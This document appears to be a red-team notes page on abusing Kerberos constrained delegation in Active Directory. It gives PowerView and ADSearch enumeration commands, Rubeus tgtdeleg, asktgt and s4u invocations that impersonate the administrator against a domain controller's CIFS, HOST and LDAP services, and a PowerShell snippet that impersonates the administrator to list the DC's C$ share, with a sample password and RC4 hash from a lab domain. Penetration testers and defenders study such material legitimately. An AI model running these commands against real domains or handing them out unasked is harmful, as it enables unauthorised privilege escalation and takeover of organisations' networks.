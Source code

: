 
check this graph from [thehacker.recipes](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained)

![KCD mindmap BqD0fGv7](https://github.com/user-attachments/assets/2639958c-b2f4-4ebd-a90f-2aa755bae4ce)


### Enumration 

```shell
# Windows 
## Powerview
Get-NetUser -TrustedToAuth
Get-NetComputer ws02 | select name, msds-allowedtodelegateto, useraccountcontrol | fl
Get-NetComputer ws02 | Select-Object -ExpandProperty msds-allowedtodelegateto | fl
Get-DomainUser -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto
Get-DomainComputer -TrustedToAuth | select userprincipalname, name, msds-allowedtodelegateto

## ADSearch
ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes cn,dnshostname,samaccountname,msds-allowedtodelegateto --json

```
![Screenshot 2024-06-18 at 20-42-44 Kerberos Constrained Delegation Red Team Notes](https://github.com/kiro6/penetration-testing-notes/assets/57776872/dfc45db7-65f4-412f-b58f-8b904ff5c606)


### With protocol transition
![Screenshot_5](https://github.com/user-attachments/assets/8b3283ba-a2a6-4903-bdd5-e2d19f382d02)


**Windows**
```powershell
# if you are using the Delegation service (in a shell of context of the service user) 
## request a delegation TGT for the user or computer
.\Rubeus.exe tgtdeleg
.\Rubeus.exe asktgt /user:<username> /password:<password> /domain:<>domain /outfile:ticket.kirbi

## Using rubeus, we can now request TGS for administrator@offense.local, who will be allowed to authenticate to CIFS/dc01.offense.local
Rubeus.exe s4u /ticket:<ticket hash> /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.offense.local /dc:dc01.offense.local /ptt
## change target service 
Rubeus.exe s4u /ticket:<ticket file> /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.offense.local /altservice:CIFS,HOST,LDAP /dc:dc01.offense.local /ptt


# if you are using diffrent shell context but you have the passowrd
.\Rubeus.exe hash /password:Slavi123
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /impersonateuser:administrator /domain:offense.local /msdsspn:cifs/dc01.offense.local /altservice:CIFS,HOST,LDAP /dc:dc01.offense.local /ptt


# if u are in a shell of context of machine account or in other words you have a SYSTEM level privileges on a machine
[Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
$idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
$idToImpersonate.Impersonate()
[System.Security.Principal.WindowsIdentity]::GetCurrent() | select name

ls \\dc01.offense.local\c$

## u can also use Rubeus
```
